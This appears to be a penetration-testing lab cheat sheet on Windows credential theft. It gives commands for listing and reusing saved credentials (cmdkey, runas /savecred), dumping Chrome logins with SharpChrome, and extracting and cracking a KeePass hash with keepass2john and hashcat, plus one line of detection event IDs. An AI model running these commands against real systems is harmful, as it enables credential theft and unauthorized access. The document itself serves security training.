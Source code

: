 ## Cmdkey Saved Credentials

**Listing Saved Credentials
```
cmdkey /list
```
- RDP to computer SQL01 as inlanefreight\bob is stored

**Run Commands as Another User
```
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```


## Browser Credentials

SharpChrome: https://github.com/GhostPack/SharpDPAPI

**Retreiving Saved Credentials from Chrome
```
.\SharpChrome.exe logins /unprotect
```
Blue team detection: Event ID 4688, 16385, 4662, 4663


## Password Managers

- .kdbx = KeePass
keepass2john: https://gist.githubusercontent.com/HarmJ0y/116fa1b559372804877e604d7d367bbc/raw/c0c6f45ad89310e61ec0363a69913e966fe17633/keepass2john.py
- Run Hashcat or John the Ripper

**Extracting KeePass Hash
```
python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx 
```

**Cracking Hash Offline
```
hashcat -m 13400 keepass_hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```
